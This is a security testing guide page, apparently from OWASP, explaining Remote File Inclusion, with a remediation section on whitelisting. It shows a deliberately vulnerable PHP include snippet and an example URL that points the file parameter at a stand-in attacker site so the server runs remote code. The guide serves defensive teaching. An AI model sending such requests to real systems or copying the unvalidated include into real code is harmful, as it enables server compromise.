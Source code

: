 # Testing for Remote File Inclusion


### Summary

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.


This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

*Code execution on the web server
*Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS)
*Denial of Service (DoS)
*Sensitive Information Disclosure


**Remote File Inclusion** (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing external URL to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.


### How to Test

Since RFI occurs when paths passed to "include" statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:
```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```


In this example the path is extracted from the HTTP request and no input validation is done (for example, by checking the input against a white list), so this snippet of code results vulnerable to this type of attack. Consider infact the following URL:

```
http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
```


In this case the remote file is going to be included and any code contained in it is going to be run by the server.


### References

**Whitepapers**
* “Remote File Inclusion” - http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion
* Wikipedia: "Remote File Inclusion" - http://en.wikipedia.org/wiki/Remote_File_Inclusion


### Remediation

The most effective solution to eliminate file inclusion vulnerabilities is to avoid passing user-submitted input to any filesystem/framework API. If this is not possible the application can maintain a white list of files, that may be included by the page, and then use an identifier (for example the index number) to access to the selected file. Any request containing an invalid identifier has to be rejected, in this way there is no attack surface for malicious users to manipulate the path.
